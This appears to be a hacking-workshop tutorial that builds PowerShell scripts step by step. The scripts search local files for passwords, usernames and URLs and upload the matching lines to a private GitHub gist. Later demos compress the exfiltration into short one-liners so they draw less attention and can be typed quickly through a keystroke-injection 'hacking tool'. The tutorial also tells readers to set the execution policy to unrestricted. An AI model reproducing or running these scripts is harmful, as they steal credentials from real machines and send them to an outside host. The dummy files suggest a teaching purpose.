




# Github First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-github.ps1` with the code below. Open your terminal and run new-github.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

You might have to launch powershell as administrator first to change the set-executionpolicy to "unrestricted"

```powershell
set-executionpolicy unrestricted
```

1. Observe the results. You will see an URL
2. Visit this URL

```powershell
#Demo 1, github requires your Fine-grained personal access token
. .\logindata.ps1
$Content = Invoke-WebRequest -Uri "https://ipinfo.io/json"

$body = @{
    description = "Uploading a first gist to github"
    public      = $false
    files       = @{
        "snippet.txt" = @{
            content = $Content.Content
        }
    }
} | ConvertTo-Json

Invoke-WebRequest `
  -Uri "https://api.github.com/gists" `
  -Method POST `
  -Headers @{
    "Authorization" = "Bearer $FGPAT"
    "X-GitHub-Api-Version" = "2022-11-28"
  } `
  -Body $body `
  -ContentType "application/json" `
  -outfile results.txt

```
You should have some feedback, corresponding more or less with the following output:



And in your gists online, you should also see some structured output:


You might encounter an error related to the "internet explorer engine", if that's the case: launch internet explorer and click through the initial setup.



This should fix your issue.

### Create some dummy files
For demo purposes we're going to create 2 dummy files: `password.txt` and `secrets.txt` Create a temp folder on your harddisk (if none exist) and put these 2 files in it folder: `C:\temp`

password.txt has the following contents
```powershell

PUT THIS FILE IN C:\temp
I do silly things like sometimes putting passwords in files.

```
secret.txt has the following contents
```
PUT THIS FILE IN C:\temp

this is my secret file
my password for example.com is Kameham3ha!
my username for example.com is ThebrokeShadower
https://www.example.com/login-or-something
```
# Github second demo
Create a new file called "new-github2.ps1" and copy paste the following data in it:
```powershell

#Demo 2, let's grab some "passwords" from local files!
. .\logindata.ps1
$Content = ls c:\temp -r | Select-String dog,cat,pets | select line,path
$ContentString = $Content | ForEach-Object { "$($_.path): $($_.line)" } | Out-String

$Description = "Github second demo"

$body = @{
    description = $Description
    public      = $false
    files       = @{
        "secrets.txt" = @{
            content = $ContentString
        }
    }
} | ConvertTo-Json -Depth 4

Invoke-WebRequest `
  -Uri "https://api.github.com/gists" `
  -Method POST `
  -Headers @{
    "Authorization" = "Bearer $FGPAT"
    "X-GitHub-Api-Version" = "2022-11-28"
  } `
  -Body $body `
  -ContentType "application/json" `
  -OutFile results.txt


```
Execute new-github2.ps1 from the terminal. If all goes well, you will have this gist under your personal account on the github website.




# Github third demo

There is no third demo! Because of the way that Github expects data (json) compared to Pastebin, we can skip this step as we already had to structure our data in the demos before this. Enjoy this filler.

# Github  fourth demo
We want to generate a bit less attention so we will try to have less lines of code on our screen.
Luckily, we can do this by using “;” in powershell
Create new-github4.ps1

Remark: This is actually some foreshadowing. This workshop is all about using a virtual keyboard to send malicious commands as fast as possible, using our little hacking tool. So we want to be fast, using less characters to make it all more robust.

new-github4.ps1
```powershell
. .\logindata.ps1
$c = Get-ChildItem C:\temp\test -Recurse | Select-String 'password|username|http' | ForEach-Object { "$($_.Path): $($_.Line)" } | Out-String
$body = @{description="Github fourth demo"; public=$false; files=@{"secrets.txt"=@{content=$c}}} | ConvertTo-Json
Invoke-WebRequest -Uri "https://api.github.com/gists" -Method POST -Headers @{Authorization="Bearer $FGPAT"
"X-GitHub-Api-Version"="2022-11-28"} -Body $body -ContentType "application/json"

```

# Github fifth demo

But what if, we try to optimize our character length a BIT more (by making it a BIT less)?

new-github5.ps1
```powershell
$FGPAT     =   "github_pat_STRINGHERE"
$c = gci C:\temp\test -R | sls 'password|username|http' | % { "$($_.Path): $($_.Line)" } | Out-String
$body = @{description="Github 5th demo"; public=$false; files=@{"secrets.txt"=@{content=$c}}} | ConvertTo-Json
iwr -Uri "https://api.github.com/gists" -Me POST -H @{Authorization="Bearer $FGPAT"} -B $body -Co "application/json"
```